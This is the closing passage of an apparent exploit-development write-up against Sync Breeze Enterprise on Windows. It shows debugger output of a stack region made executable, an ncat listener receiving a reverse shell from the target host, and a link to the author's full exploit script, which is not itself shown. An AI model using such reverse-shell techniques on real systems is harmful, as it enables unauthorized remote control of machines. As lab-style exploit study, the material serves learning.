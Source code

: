 ```
Mapping stack trace database regions...
Mapping activation context regions...

Usage:                  Stack
Base Address:           02cbf000
End Address:            02cc0000
Region Size:            00001000 (   4.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000040          PAGE_EXECUTE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        02bc0000
Allocation Protect:     00000004          PAGE_READWRITE
More info:              ~7k

Content source: 1 (target), length: 4a0
```

Which means shell time!
```
ncat -vlnp 9001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 192.168.1.254:55191.
Microsoft Windows [Version 10.0.19045.4957]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Sync Breeze Enterprise\bin>

```
 
SHELL!!
# Fin
That derailed kinda quickly, towards the end I left out most of the debugging issues, as it was just me doing dumb stuff and not mathing right.

Surely there are better ways to optimise this and maybe use better gadgets, so I might revisit this later.

Full script is on github: https://github.com/ElJayRight/pocscripts/blob/main/sploit.py
